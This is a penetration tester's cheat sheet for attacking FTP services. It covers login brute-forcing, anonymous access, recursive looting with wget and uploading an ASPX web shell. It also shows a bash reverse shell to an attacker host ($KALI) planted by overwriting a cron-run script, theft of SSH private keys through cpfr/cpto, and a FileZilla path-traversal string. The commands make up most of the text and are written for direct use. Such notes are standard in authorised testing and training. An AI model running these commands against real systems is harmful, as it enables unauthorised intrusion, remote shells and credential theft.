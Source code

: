 ```yaml
---
category: Uncategorized
  - pentest
  - enumeration
  - ftp
tags: [pentest]
created: 2024-12-21

---
```

#### FTP Enumeration
==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

```bash - kali
ftp $TARGET 21
```

Admin login
```bash - kali
admin
```

Anonymous login
```bash - kali
anonymous
```

```bash - kali
nmap --script ftp-brute -p 21 $TARGET
```

Check for directory traversal:
```bash - kali
ls ../
```

#### Exit Extended Passive Mode
![[Pasted image 20220401094126.png]]

```bash - kali
pass
```

```bash - kali
ls
```

Then switch to binary mode to upload files:
```bash - kali
bin
```

#### Downloading recursively 
```bash - kali
wget --mirror 'ftp://anonymous:anonymous@$TARGET'
```

```bash - kali
wget -r ftp://anonymous@$TARGET:21
```

```bash - kali
wget -m ftp://anonymous:anonymous@$TARGET
```

```bash - kali
wget -m --no-passive ftp://anonymous:anonymous@$TARGET
```

#### Upload reverse shell
```bash - kali
binary
```

```bash - kali
put cmdasp.aspx
```

Then visit webshell in web browser:
```bash - kali
firefox http://$TARGET/cmdasp.aspx
```

#### Display file without downloading
```bash - kali
get <FILENAME> -
```

#### Existing scripts
`scripts` folder found on FTP, file called `clean.sh` that is part of cron job.  Made a reverse shell with same name, uploaded and overwrote.

clean.sh
```bash - kali
echo '#!/bin/bash \nbash -i >& /dev/tcp/$KALI/443 0>&1' > clean.sh
```

```bash - kali
ftp $TARGET
```

```bash - kali
cd scripts
```

```bash - kali
put clean.sh
```

Set up listener and wait.

[[rlwrap]]

#### Nmap vsftpd script

```bash - kali
nmap --script ftp-vsftpd-backdoor -p 21 $TARGET
```

#### copy id_rsa

```bash - kali
nc $TARGET 21
```

```bash - kali
cpfr /home/user/.ssh/id_rsa
```

```bash - kali
cpto /home/kali/id_rsa
```

[[Port 22 - SSH  ~#id_rsa]]

#### Home FTP Server
https://www.exploit-db.com/exploits/34050

#### FileZilla Directory Transversal
```
.....=C:/Program+Files/FileZilla+Server/FileZilla+Server.xml
```

To crack passwords, try:
[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#FileZilla 0 9 55]]

#### vsftpd
Config file is most likely located at `/etc/vsftpd.conf`. If you can read this file, look for `anon_root=/srv` entry to find root directory of FTP.  `/srv` in this example.
